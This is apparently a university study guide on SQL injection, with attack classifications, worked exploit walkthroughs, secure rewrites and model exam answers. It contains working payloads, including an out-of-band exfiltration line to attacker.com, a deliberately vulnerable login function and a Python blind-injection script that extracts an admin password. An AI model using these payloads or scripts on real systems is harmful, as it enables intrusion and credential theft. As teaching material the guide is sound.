



# SQL Injection and vulnerabilities

<!-- SECTION_1_START -->
# SQL Injection and Vulnerabilities — Module 2: Software Vulnerabilities

## 1. Core Technical Definition

**SQL Injection (SQLi)** is a *code injection* technique that exploits a security vulnerability occurring in the database layer of an application. It occurs when user-supplied input is incorrectly filtered, weakly typed, or not strictly validated, and is unexpectedly executed as part of an SQL command. The attacker injects malicious SQL statements into an entry field for execution (e.g., to dump the database content to the attacker, modify data, or gain unauthorized administrative access).

> [!IMPORTANT]
> **KTU 2024 Syllabus Definition (PECST744 — Module 2):**
> *SQL Injection is a server-side web application vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve — including data belonging to other users, or any other data that the application itself is able to access. In many cases, an attacker can also modify or delete this data, causing persistent changes to the application's content or behaviour.*

**Vulnerability, in this context**, is defined as a *weakness in the software system* that can be exploited by a threat actor to perform unauthorized actions within a computer system. Vulnerabilities in web applications are typically categorized under the **OWASP Top 10**, and SQL Injection consistently ranks among the top 3 most critical web application vulnerabilities.

> [!NOTE]
> **Key Terms to Remember:**
> - **Payload** — The malicious SQL fragment injected by the attacker.
> - **Entry Vector** — The input field (login form, URL parameter, HTTP header, cookie) through which the payload is delivered.
> - **Sink** — The backend code segment that concatenates or processes the user input directly within an SQL query.
> - **String Termination** — The use of `'` (single quote) or `"` (double quote) to prematurely close the expected string literal in the query.

### Conceptual Analogy / Intuition

Imagine a **vending machine** that accepts a coin and a button number:

- **Normal operation:** You insert a **₹10 coin** and press **B5** → the machine gives you one bottle of water. The machine's internal instruction is `GIVE(product=B5, payment=10)`.
- **SQL Injection (vulnerability):** Imagine a malicious user pushes a fake button labeled **"B5; OPEN_ALL_LOCKERS; REFUND_1000"**. The machine's logic, instead of validating the input, directly appends whatever is on the button to the command. The final instruction becomes `GIVE(product=B5; OPEN_ALL_LOCKERS; REFUND_1000, payment=10)`, and the machine naively executes *all* the chained commands.

In a web application, the **vending machine is the database**, the **coin slot is the login form**, and the **button is a vulnerable SQL query** that trusts user input blindly. The "fake button" is the SQL payload injected by the attacker.

### GeoGebra / Desmos Visualization (Conceptual Threat Probability)

> [!VISUALIZATION CONTROL]
> **Concept:** SQLi Threat Severity vs. Validation Strictness (Conceptual Scatter Plot)
>
> **GeoGebra / Desmos Input Equations:**
> - `f(x) = 100 / (1 + e^(2*(x - 5)))` (Sigmoid curve representing vulnerability likelihood)
> - `x_min = 0, x_max = 10`
>
> **Visual Description:** Plot the curve $f(x) = \dfrac{100}{1 + e^{2(x-5)}}$ where $x$ represents the *strictness of input validation* (0 = none, 10 = strict whitelist). Observe that when $x < 5$ (weak/no validation), the curve approaches **100% probability** of SQLi success. When $x \geq 7$ (parameterized queries + whitelist), the curve asymptotically approaches **0%**.

---

<!-- SECTION_1_END -->

<!-- SECTION_2_START -->
# 2. Deep Theoretical Analysis & KTU High-Yield Cheat Sheet

## 2.1 Classification of SQL Injection Attacks

SQL Injection is not a single monolithic attack — it is a **family of techniques** classified by the attacker's *injection vector* and *response channel*. The KTU 2024 syllabus (Module 2) expects students to clearly distinguish between the following categories.

### 2.1.1 In-Band SQL Injection (Classic SQLi)
The attacker uses the **same communication channel** to launch the attack and gather results.

- **Error-Based SQLi:** Forces the database to emit verbose error messages (e.g., MySQL `XPATH` error, Oracle `ORA-` errors) to enumerate table names, column names, and data types.
- **UNION-Based SQLi:** Leverages the SQL `UNION SELECT` operator to append the attacker's query to the original one, returning additional rows in the HTTP response.

### 2.1.2 Blind / Inferential SQL Injection
The server does not return query results in its response. The attacker **infers** the data by observing behavioral side effects (timing, boolean responses).

- **Boolean-Based Blind SQLi:** Injects a condition (e.g., `' AND 1=1 --` vs. `' AND 1=2 --`) and observes the page response — `True` (normal page) vs. `False` (missing content/error).
- **Time-Based Blind SQLi:** Injects a delay (e.g., `'; WAITFOR DELAY '0:0:10' --`) and measures the response time to deduce character values.

### 2.1.3 Out-of-Band SQL Injection
The attacker cannot use the same channel to receive results, so they trigger the database server to **exfiltrate data to a remote endpoint** (e.g., DNS lookup, HTTP request to attacker-controlled server). This is used when in-band and blind channels are blocked.

## 2.2 Anatomy of a Vulnerable Query

The vulnerability is **always rooted** in *string concatenation* of user input with SQL syntax, instead of using parameterized placeholders.

**Vulnerable (string concatenation) — THIS IS THE BUG:**

```sql
SELECT * FROM users WHERE username = '$user' AND password = '$pass';
```

If the attacker inputs `$user = "' OR '1'='1"`, the query becomes:

```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '' OR '1'='1';
```

Because `'1'='1'` is **always true**, the `WHERE` clause evaluates to true for **every row** in the users table, bypassing authentication entirely.

## 2.3 KTU High-Yield Formula Sheet

| **Concept** | **Rule / Pattern** | **Example** | **Defense** |
|---|---|---|---|
| Authentication Bypass | `' OR '1'='1' --` | Login form | Prepared statements |
| Comment Termination | `-- ` (SQL), `#` (MySQL), `/* */` (multi-line) | `' OR 1=1 -- ` | Input validation |
| UNION Column Count | `' UNION SELECT NULL,NULL,NULL --` | Column count discovery | WAF + parameterized |
| Tautology | `' OR 1=1 --` | Boolean bypass | Strict input type checking |
| Stacked Queries | `'; DROP TABLE users; --` | Batch execution | Disable multi-statement |
| Time-based blind | `'; IF(1=1, SLEEP(5), 0) --` | MySQL timing | Query timeout limits |
| Out-of-band | `'; EXEC xp_dirtree '\\attacker.com\' --` | MSSQL DNS exfil | Egress firewall |
| Second-order SQLi | Stored payload re-executed later | User profile update | Context-aware escaping |
| Encoding bypass | `%27` for `'` (URL) | URL-encoded quote | Canonicalize input first |
| Numeric injection | `105 OR 1=1` (no quotes) | `WHERE id=105` | Type-cast to int |

## 2.4 Root Causes (Why Vulnerabilities Exist)

1. **Lack of Input Validation** — Application does not verify that input matches expected format (regex whitelist).
2. **Dynamic SQL Construction** — Use of string concatenation (`"SELECT ... " + userInput`) instead of placeholders.
3. **Excessive Database Privileges** — Application's DB user has `DROP`, `GRANT`, or administrative rights.
4. **Verbose Error Messages** — Production systems display raw database error messages to the user.
5. **No Output Encoding** — Even if input is partially sanitized, the response is rendered without encoding.
6. **Legacy Code & ORM Misuse** — Object-Relational Mappers (e.g., older Hibernate) may still allow raw SQL execution via `HQL` injection.

## 2.5 Real-World Engineering Utility

SQL Injection is not a theoretical concept — it is a **persistent threat vector** in production-grade systems. Engineering teams use this knowledge to:

- **Build Secure SDLC Pipelines:** Integrate static application security testing (SAST) tools like *SonarQube*, *Checkmarx*, and dynamic tools like *SQLMap* into CI/CD pipelines.
- **Design WAF Rule Sets:** Web Application Firewalls (Cloudflare, AWS WAF, ModSecurity) use SQLi signature databases to block malicious payloads.
- **Penetration Testing:** Certified ethical hackers (CEH, OSCP) actively test web applications for SQLi using automated scanners (*SQLMap*, *Burp Suite*) and manual techniques.
- **Compliance Audits:** Standards like **PCI-DSS 6.5.1**, **OWASP ASVS 5.3**, and **NIST SP 800-53 SI-10** explicitly require protection against injection attacks for systems handling financial, healthcare, and PII data.

> [!NOTE]
> **Famous Incidents for KTU Reference:**
> - **Heartland Payment Systems (2008):** SQLi led to breach of **130 million credit card numbers**; cost exceeded **$140 million**.
> - **TalkTalk (2015):** SQLi on a legacy web portal exposed **157,000 customer records**; fined **£400,000** by ICO.
> - **7-Eleven (2022, FTC Settlement):** SQLi in FTP server exposed personal data of customers.

---

<!-- SECTION_2_END -->

<!-- SECTION_3_START -->
# 3. Step-by-Step Derivations, Code, and Exploit Walkthroughs

## 3.1 Step-by-Step Exploit: Authentication Bypass

Let us walk through the *complete* attack chain for a vulnerable login form. This is the most common KTU 14-mark problem type.

### Step 1 — Original Vulnerable SQL Query (Python + SQLite)

```python
# vulnerable_login.py  -- DEMONSTRATION ONLY, DO NOT USE IN PRODUCTION
import sqlite3

def vulnerable_login(username: str, password: str) -> bool:
    """
    Classic SQL Injection vulnerability.
    The f-string concatenation allows the attacker to inject arbitrary SQL.
    """
    conn = sqlite3.connect("bank.db")
    cursor = conn.cursor()
    
    # THIS IS THE VULNERABLE LINE
    query = f"SELECT id FROM users WHERE username = '{username}' AND password = '{password}'"
    
    print(f"[DEBUG] Executing: {query}")
    cursor.execute(query)
    result = cursor.fetchone()
    conn.close()
    return result is not None
```

### Step 2 — Crafting the Malicious Payload

The attacker enters the following in the **username field** (password field is left blank or filled with anything):

```
' OR '1'='1' --
```

### Step 3 — Resulting SQL After Injection

After string substitution, the executed query becomes:

```sql
SELECT id FROM users WHERE username = '' OR '1'='1' --' AND password = 'anything'
```

### Step 4 — Logical Evaluation of the Query

Breaking the WHERE clause into its boolean components:

$$
\text{WHERE } (\text{username} = '') \;\lor\; ('1'='1') \;\text{-- } \text{(rest commented out)}
$$

$$
\text{WHERE } \text{FALSE} \;\lor\; \text{TRUE} \;\text{(comment kills the password check)}
$$

$$
\text{WHERE } \text{TRUE}
$$

Since the WHERE clause is **always TRUE**, the `SELECT` returns **every row** in the `users` table, and `fetchone()` returns the first admin user. The attacker is now logged in as **admin without credentials**.

### Step 5 — Remediating with Parameterized Queries (Python + SQLite)

```python
# secure_login.py  -- PRODUCTION-SAFE PATTERN
import sqlite3
import logging

# Configure audit logging for all database operations
logging.basicConfig(
    filename="security_audit.log",
    level=logging.INFO,
    format="%(asctime)s | %(levelname)s | %(message)s"
)

def secure_login(username: str, password: str) -> bool:
    """
    SQL Injection SAFE login using parameterized queries.
    The DB driver treats 'username' and 'password' strictly as DATA, not CODE.
    """
    # Step 5.1: Type validation BEFORE reaching the query layer
    if not isinstance(username, str) or not isinstance(password, str):
        logging.warning(f"Non-string input rejected for user: {username!r}")
        return False
    
    # Step 5.2: Length cap to prevent buffer-overflow style SQLi payloads
    if len(username) > 50 or len(password) > 128:
        logging.warning(f"Over-length input rejected for user: {username!r}")
        return False
    
    try:
        conn = sqlite3.connect("bank.db")
        cursor = conn.cursor()
        
        # Step 5.3: PARAMETERIZED QUERY (the actual fix)
        # The '?' placeholders are filled by the driver; user input is NEVER
        # treated as SQL syntax.
        query = "SELECT id FROM users WHERE username = ? AND password = ?"
        cursor.execute(query, (username, password))
        result = cursor.fetchone()
        conn.close()
        return result is not None
    
    except sqlite3.DatabaseError as db_err:
        logging.error(f"Database error during login attempt: {db_err}")
        return False
```

### Step 6 — Behavior Comparison

| **Test Input** | **Vulnerable Query Result** | **Parameterized Query Result** |
|---|---|---|
| `admin / pass123` | Login OK (legit) | Login OK (legit) |
| `' OR '1'='1' -- / x` | **Login OK as admin (BYPASS)** | **Login FAILED** (literal string match) |
| `admin' ; DROP TABLE users; -- / x` | **Table DELETED** | **Login FAILED**, table intact |
| `admin' UNION SELECT 1,2,3 --` | Schema leak (if 3 cols) | **Login FAILED** |

## 3.2 Step-by-Step Exploit: UNION-Based Column Discovery

### Step 1 — Probe for Column Count

The attacker iteratively injects:

```
' ORDER BY 1 --
' ORDER BY 2 --
' ORDER BY 3 --
' ORDER BY 4 --   <-- if this errors, table has 3 columns
```

### Step 2 — Retrieve Schema Metadata

Once the column count is known (say, 3), the attacker injects:

```
' UNION SELECT table_name, NULL, NULL FROM information_schema.tables --
```

For MySQL, `information_schema.tables` lists every table in every schema. The result is displayed in the application's response.

### Step 3 — Extract Sensitive Data

Finally, the attacker targets the `users` table:

```
' UNION SELECT username, password, email FROM users --
```

## 3.3 Step-by-Step Exploit: Boolean-Based Blind SQLi

### Step 1 — Confirm the Vulnerability

- Normal URL: `https://vuln.com/item?id=5` → Page loads.
- Injected URL: `https://vuln.com/item?id=5 AND 1=1` → Page loads (TRUE).
- Injected URL: `https://vuln.com/item?id=5 AND 1=2` → Page missing content (FALSE).

This confirms the `id` parameter is injectable.

### Step 2 — Character-by-Character Extraction

The attacker automates the following pattern using Python:

```python
import requests
import string

TARGET = "https://vuln.com/item"
TRUE_INDICATOR = "Welcome"  # String that appears when condition is TRUE
CHARSET = string.ascii_lowercase + string.digits + "_"
EXTRACTED = ""

for position in range(1, 25):  # Assume password length <= 24
    found_char = None
    for c in CHARSET:
        # SUBSTRING extracts one char at a time
        payload = f"5 AND SUBSTRING((SELECT password FROM users WHERE username='admin'),{position},1)='{c}'"
        r = requests.get(TARGET, params={"id": payload})
        if TRUE_INDICATOR in r.text:
            EXTRACTED += c
            found_char = c
            print(f"[+] Position {position}: {c}  (running: {EXTRACTED})")
            break
    if found_char is None:
        break  # End of string reached

print(f"\n[FINAL] Extracted password: {EXTRACTED}")
```

### Step 3 — Mathematical Formulation of the Binary Search Trick

A more efficient variant uses **binary search on the ASCII value** of each character, reducing requests from $\mathcal{O}(n \cdot 36)$ to $\mathcal{O}(n \cdot 7)$:

$$
\text{For each position } p, \text{ test } \text{ASCII}(c_p) > k, \text{ where } k \in \{64, 96, 112, 120, 124, 126, 127\}
$$

After 7 comparisons, the exact ASCII value of $c_p$ is determined.

## 3.4 Detection: Python Snippet Using `sqlmap` Equivalent Logic

```python
"""
A minimal Python port of the heuristic checks sqlmap uses to fingerprint
SQL Injection points. For academic / KTU lab demonstration only.
"""
import re
from typing import List, Tuple

SQLI_SIG_SIGNATURES: List[str] = [
    r"\bUNION\b.*\bSELECT\b",
    r"\bOR\b\s+\d+=\d+",
    r"'\s*--",
    r";\s*DROP\s+TABLE",
    r"\bSLEEP\s*\(\s*\d+\s*\)",
    r"\bWAITFOR\s+DELAY\b",
    r"\bBENCHMARK\s*\(",
    r"\bINFORMATION_SCHEMA\b",
    r"\bLOAD_FILE\s*\(",
    r"\bOUTFILE\s+",
]

def detect_sqli(payload: str) -> Tuple[bool, List[str]]:
    matched: List[str] = []
    for sig in SQLI_SIG_SIGNATURES:
        if re.search(sig, payload, re.IGNORECASE):
            matched.append(sig)
    return (len(matched) > 0), matched

# Demonstration
test_payloads = [
    "admin' OR 1=1 --",
    "5 UNION SELECT username, password FROM users",
    "5' AND SLEEP(5) --",
    "legitimate_search_query",
]
for p in test_payloads:
    is_malicious, hits = detect_sqli(p)
    print(f"{'BLOCK' if is_malicious else 'ALLOW'} | {p!r:50} | matched={hits}")
```

## 3.5 Prevention Strategy Matrix (For 14-Mark Theory Answers)

| **Layer** | **Technique** | **Effectiveness** | **Notes** |
|---|---|---|---|
| Code | Parameterized Queries (Prepared Statements) | ★★★★★ | **Primary defense** — driver separates code from data |
| Code | Stored Procedures (with parameter binding, not `EXEC()`) | ★★★★ | Hides table structure; still risky if dynamic SQL inside |
| Code | Whitelist Input Validation (Regex) | ★★★ | Best for non-string types (IDs, enums) |
| Code | Escaping User Input (e.g., `mysqli_real_escape_string`) | ★★ | Brittle; bypassable with multibyte tricks |
| Server | Principle of Least Privilege (DB user has `SELECT` only) | ★★★★ | Limits blast radius of successful injection |
| Server | Disable Verbose Error Messages in Production | ★★★ | Hides schema info from attackers |
| Server | Web Application Firewall (WAF) | ★★ | Evasion possible with encoding/comment tricks |
| Network | Egress Filtering (block DB → Internet traffic) | ★★★★ | Defeats out-of-band exfiltration |
| Process | Regular Code Review + SAST/DAST Scanning | ★★★★★ | Catches regressions before deployment |

---

<!-- SECTION_3_END -->

<!-- SECTION_4_START -->
# 4. Structural Diagrams & Schematics

## 4.1 SQL Injection Attack Flow (Mermaid Sequence Diagram)



## 4.2 SQLi Taxonomy & Defense Mapping (Mermaid Graph)



## 4.3 Sequential Processing Topology Matrix (Code Path)

| **Stage** | **Component** | **Vulnerability Type** | **Hardening Action** |
|---|---|---|---|
| 1 | Browser / Client | Untrusted input origin | HTTPS enforcement + CSP headers |
| 2 | Network Edge | Unencrypted channel | TLS 1.2+ only, HSTS |
| 3 | WAF Layer | Signature evasion | Update SQLi ruleset daily |
| 4 | Input Validation Module | Missing checks | Regex whitelist per field |
| 5 | Application Logic | String concatenation | Use parameterized query builder |
| 6 | ORM Layer | HQL / LINQ injection | Use `.setParameter()` API |
| 7 | Database Driver | Multi-statement enabled | Set `allowMultiQueries=false` |
| 8 | DBMS | Excessive privileges | `GRANT SELECT ON app.* TO 'app_user'@'%'` |
| 9 | Egress Gateway | Out-of-band exfiltration | Block DB → Internet traffic |
| 10 | Audit / SIEM | No logging of SQL errors | Forward DB errors to SOC |

## 4.4 Defense-in-Depth Layered Architecture (Mermaid)



---

<!-- SECTION_4_END -->

<!-- SECTION_5_START -->
# 5. KTU 2024 Scheme Examination Question Bank & Topic Recap

---

## 5.1 Part A Questions (3 Marks Each)

### Question 1 — `[KTU University Exam – July 2024]`

> Define SQL Injection. List any **four** types of SQL Injection attacks with a one-line example for each. **[CO1, Remember]**

**Model Answer (3 Marks — Valuation Key):**
- **[Definition: 1 Mark]** SQL Injection is a code injection technique that exploits improper validation of user input in web applications, allowing the attacker to inject malicious SQL statements that are executed by the backend database.
- **[Types with examples: 2 Marks = 4 × 0.5 Mark each]**
  1. **In-Band (Error-Based)** — `' AND 1=CONVERT(int, (SELECT @@version)) --`
  2. **In-Band (UNION-Based)** — `' UNION SELECT username, password FROM users --`
  3. **Blind (Boolean-Based)** — `' AND SUBSTRING(@@version,1,1)='M' --`
  4. **Blind (Time-Based)** — `'; IF(1=1, WAITFOR DELAY '0:0:5', 0) --`
  5. **Out-of-Band** — `'; EXEC xp_dirtree '\\attacker.com\' --`

---

### Question 2 — `[KTU University Exam – Dec 2023]`

> Differentiate between **Parameterized Queries** and **String Concatenation** in SQL. Why is the latter vulnerable? **[CO1, Understand]**

**Model Answer (3 Marks):**
- **[Parameterized Query: 1 Mark]** A query in which the SQL code is defined first with placeholder characters (e.g., `?`, `:name`), and the actual user-supplied values are bound at execution time by the DB driver. The values are treated strictly as **data**, never as executable SQL.
- **[String Concatenation: 1 Mark]** A query formed by concatenating user input directly into a SQL string, e.g., `"SELECT * FROM users WHERE id=" + userId`. The input is treated as part of the **code**.
- **[Why vulnerable: 1 Mark]** Since the input is parsed as part of the SQL syntax, an attacker can supply a quote (`'`) to terminate the string literal early and append arbitrary SQL commands (e.g., `' OR 1=1 --`), which the database will execute without distinction.

---

## 5.2 Part B Questions (14 Marks Each)

> [!NOTE]
> Each Part B question follows the standard KTU ESE pattern: Part (a) carries **7 marks** and Part (b) carries **7 marks**, with internal choice (a) OR (b) within each sub-question.

---

### Question A — `[KTU University Exam – Model Paper 2024]`

**(a) [7 Marks]** With a neat diagram, explain the **architecture of a typical SQL Injection attack**. Describe **In-Band** and **Blind** SQL Injection in detail, including the attacker's objective in each case. **[CO2, Understand]**

**(b) [7 Marks]** Consider the following vulnerable authentication code in a banking web application:

```sql
SELECT * FROM users
WHERE username = '$uname' AND password = '$pass';
```

Demonstrate with a **step-by-step evaluation** how an attacker can bypass authentication by injecting the payload `' OR '1'='1' --` in the username field. Show the final SQL query and explain why it succeeds. **[CO3, Apply]**

---

#### Model Solution for Question A

**Part (a) — Architecture of SQL Injection Attack [7 Marks]**

- **[Attack Architecture Diagram: 3 Marks]** (Refer to Section 4.1 Mermaid sequence diagram for the canonical structure. Examiner expects: Attacker → Input Form → Vulnerable Web App → DBMS → Data Exfiltration.)
- **[Stages of attack — 2 Marks]**
  1. **Reconnaissance** — Identify input fields (login, search, URL params).
  2. **Fingerprinting** — Probe to determine DBMS type (MySQL, Oracle, MSSQL).
  3. **Injection** — Send malicious payload through the entry vector.
  4. **Exploitation** — DBMS executes the combined query, returning/leaking data.
  5. **Escalation** — Possibly pivot to OS command execution or privilege escalation.
- **[In-Band vs Blind distinction: 2 Marks]**
  - *In-Band:* Results are returned **in the same channel** (visible in the HTTP response). Subtypes: Error-Based, UNION-Based.
  - *Blind:* Results are **not visible**; attacker infers data from side-effects (boolean response, timing). Subtypes: Boolean-Based, Time-Based.
  - *Attacker's objective:* Steal credentials, dump tables, modify/delete data, or escalate to RCE.

**Part (b) — Authentication Bypass Walkthrough [7 Marks]**

- **[Step 1 — Identify entry point: 1 Mark]** The login form has two text fields: `username` and `password`. The backend constructs an SQL query using string concatenation.
- **[Step 2 — Craft payload: 1 Mark]** Attacker enters `' OR '1'='1' --` in the **username** field and any random string in the **password** field.
- **[Step 3 — Show final query: 2 Marks]**

```sql
SELECT * FROM users
WHERE username = '' OR '1'='1' --' AND password = 'random';
```

- **[Step 4 — Logical evaluation: 2 Marks]**

$$
\text{username} = '' \;\; \text{(FALSE)} \quad | \quad '1' = '1' \;\; \text{(TRUE)}
$$

The `OR` operator returns **TRUE** if any operand is true. The `--` comment then **nullifies the password check**. The query returns **all rows** from the `users` table.

- **[Step 5 — Conclusion: 1 Mark]** The application receives a non-empty result set and authenticates the attacker as the **first user** in the table (typically the administrator), granting full access without valid credentials.

---

### Question B — `[KTU University Exam – July 2024]`

**(a) [7 Marks]** Explain the **defense-in-depth strategy** for preventing SQL Injection in a web application. List and describe **at least five layers** of defense with one example for each. **[CO2, Understand]**

**(b) [7 Marks]** A startup is using the following PHP code to fetch user data:

```php
$id = $_GET['id'];
$result = mysqli_query($conn, "SELECT name, email FROM users WHERE id = $id");
```

Identify the vulnerability. Rewrite the code using **parameterized queries** and explain **why the new code is secure**. Also discuss the role of the **Principle of Least Privilege** in mitigating SQLi impact. **[CO3, Apply]**

---

#### Model Solution for Question B

**Part (a) — Defense-in-Depth Strategy [7 Marks]**

> **[1 Mark for naming the concept + 1.2 Marks per defense layer × 5 layers = 7 Marks]**

| **Layer** | **Defense** | **Example** |
|---|---|---|
| 1 | Input Validation (Whitelist) | `if (!ctype_digit($id)) { die("Invalid input"); }` |
| 2 | Parameterized Queries | `cursor.execute("SELECT * FROM users WHERE id = ?", (id,))` |
| 3 | Stored Procedures | `CALL get_user_by_id(?)` (no dynamic SQL inside) |
| 4 | Escaping User Input | `mysqli_real_escape_string($conn, $input)` (last resort) |
| 5 | Least Privilege | `GRANT SELECT ON app.users TO 'web_app'@'localhost';` |
| 6 | Suppress Errors in Production | Set `display_errors = Off` in `php.ini` |
| 7 | WAF | ModSecurity OWASP CRS rule set |

> [!WARNING]
> **Examiner's Pitfall Warning:** Students often list defenses but **fail to give concrete examples**. For full marks, each defense layer MUST be paired with a code/config snippet. A bare list of defense names typically scores only 4 of 7 marks.

**Part (b) — Vulnerability Identification & Remediation [7 Marks]**

- **[Vulnerability identification: 1 Mark]** The PHP code uses **direct string interpolation** of `$_GET['id']` into the SQL query. Since `$_GET['id']` is fully controlled by the attacker, this is a textbook **SQL Injection vulnerability** (numeric type, no quotes needed).
- **[Demonstrate attack: 1 Mark]** Attacker visits: `https://vuln.com/user.php?id=105 OR 1=1` — the query becomes `SELECT name, email FROM users WHERE id = 105 OR 1=1`, dumping every user.
- **[Secure rewrite: 3 Marks]**

```php
// SECURE VERSION (PHP + MySQLi)
$id = $_GET['id'];

// Step 1: Validate type strictly (defense in depth)
if (!is_numeric($id) || (int)$id != $id) {
    http_response_code(400);
    die("Invalid ID format.");
}

// Step 2: Use prepared statement (PRIMARY DEFENSE)
$stmt = $conn->prepare("SELECT name, email FROM users WHERE id = ?");
$stmt->bind_param("i", $id);   // "i" = integer type
$stmt->execute();
$result = $stmt->get_result();
```

- **[Why secure: 1 Mark]** The `prepare()` method sends the SQL template to the database **separately** from the parameter value. The DBMS compiles the query plan with `?` as a typed placeholder, and `bind_param` sends `$id` strictly as a **value** — never as SQL syntax. The attacker's payload becomes a literal numeric value (or fails to match), eliminating injection.
- **[Principle of Least Privilege: 1 Mark]** Even if injection occurs, the impact is minimized by granting the web application's DB user **only the `SELECT` privilege** on required tables. The attacker cannot `DROP`, `UPDATE`, or `GRANT` because the application account lacks those rights. This contains the blast radius of a successful attack.

> [!WARNING]
> **Examiner's Pitfall Warning (Question B Part b):**
> - Do not write `bind_param("s", $id)` (string type) for a numeric field. Always use `"i"` (integer) or `"d"` (double) to leverage the type system as an additional safeguard. Using `"s"` still works but weakens the defense. **[Lose 1 Mark]**
> - Skipping the `is_numeric()` validation layer means the solution is incomplete; you must show **defense in depth**, not just the parameterized query. **[Lose 0.5 Mark]**
> - Mentioning "use `mysql_real_escape_string`" as a sufficient fix is outdated and scores **zero marks** for the remediation step — parameterized queries are mandatory in the 2024 scheme.

---

## 5.3 Topic Recap & Important Things to Remember

> [!IMPORTANT]
> **High-Yield Revision Checklist for SQL Injection (Module 2 — KTU 2024 Scheme)**

- **Definition:** SQL Injection is a *code injection* vulnerability where attacker input is executed as part of a SQL statement. It consistently ranks in the **OWASP Top 3** injection-family vulnerabilities.
- **Root Cause:** String concatenation of untrusted input with SQL queries. The single most effective fix is **parameterized queries (prepared statements)**.
- **Five Main Attack Types to Memorize:**
  1. Error-Based In-Band
  2. UNION-Based In-Band
  3. Boolean-Based Blind
  4. Time-Based Blind
  5. Out-of-Band (DNS / HTTP exfiltration)
- **Five Comment Characters** to know for SQLi payload crafting: `--` (SQL standard), `#` (MySQL), `/* */` (multi-line), `;` (statement terminator), and `'` or `"` (string terminators).
- **Tautology Example (most-tested in exams):** `' OR '1'='1' --` evaluates to TRUE for all rows, bypassing `WHERE` clauses.
- **UNION Attack Requires:** (a) Same number of columns in both `SELECT` statements, (b) Compatible data types.
- **Time-Based Payload Example:** `'; IF(1=1, SLEEP(5), 0) --` — works on MySQL; for MSSQL use `WAITFOR DELAY`.
- **Seven Layers of Defense (Defense-in-Depth):** Input Validation → Parameterized Queries → Stored Procedures → Escaping → Least Privilege → Error Suppression → WAF.
- **Principle of Least Privilege:** The web application's database user should have **only** the `SELECT`, `INSERT`, `UPDATE` privileges it needs — **never** `DROP`, `DELETE`, or `GRANT`.
- **Second-Order SQLi:** A stored payload (e.g., in a username field) gets re-executed later when that data is used in a different query. Defense requires context-aware escaping at *every* use site, not just at the entry point.
- **Famous Real-World Incidents:** Heartland Payment Systems (2008, 130M cards), TalkTalk (2015, £400k ICO fine), 7-Eleven (2022, FTC settlement).
- **Defense Tools Referenced in KTU Syllabus:** Burp Suite, SQLMap, ModSecurity WAF, OWASP ZAP, SonarQube, parameterized query APIs (`prepare()`, `bind_param()`, `setParameter()`).
- **Key Exam Tip:** When asked *"how to prevent SQL Injection"*, **always lead with parameterized queries** as the primary answer, then layer secondary defenses. A bare list of techniques without code examples typically scores 60-70% of available marks.

---

<!-- SECTION_5_END -->
